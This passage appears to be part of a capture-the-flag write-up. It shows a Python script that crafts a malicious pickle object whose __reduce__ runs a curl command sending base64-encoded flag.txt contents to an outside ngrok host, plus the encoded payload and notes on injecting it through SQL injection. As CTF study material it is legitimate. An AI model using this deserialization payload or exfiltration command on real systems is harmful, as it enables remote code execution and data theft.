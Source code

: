 Created a script to craft custom serialized python objects that once unserialized execute arbitrary code:

```python
import pickle
import base64
import os

# Credits to m3ssap0

class Elf:
    def __init__(self, name, activity, id):
        self.name = name
        self.activity = activity
        self.id = id
    
    def __reduce__(self):
        command = "curl https://229b-93-51-54-187.eu.ngrok.io/`cat flag.txt|base64`"
        return os.system, (command, )

def generate_exploit():
    serialized_exploit = base64.b64encode(pickle.dumps(Elf("0xbro", "pwning", 0))).decode("ascii")
    print("Serialized exploit object: %s" % serialized_exploit)
    return serialized_exploit

if __name__ == '__main__':
    exploit_object = generate_exploit()
```

```bash
$ python3 script.py 
Serialized exploit object: gASVWwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjEBjdXJsIGh0dHBzOi8vMjI5Yi05My01MS01NC0xODcuZXUubmdyb2suaW8vYGNhdCBmbGFnLnR4dHxiYXNlNjRglIWUUpQu
```

Exploited the SQL Injection vulnerability to inject the serialized object and exfiltrate the flag:

>[!question]
>What is the SQL query that the server creates to manage this requests?
>
>Assumptions: 
>- `select "/some/path/"||id from elves where id = <param>`
>- `select data from elves where id= <param>`

>[!Success] Confirm
>Random junk appended:
>![](../../zzz_res/attachments/ElfResources7.png)
>Legit object appended: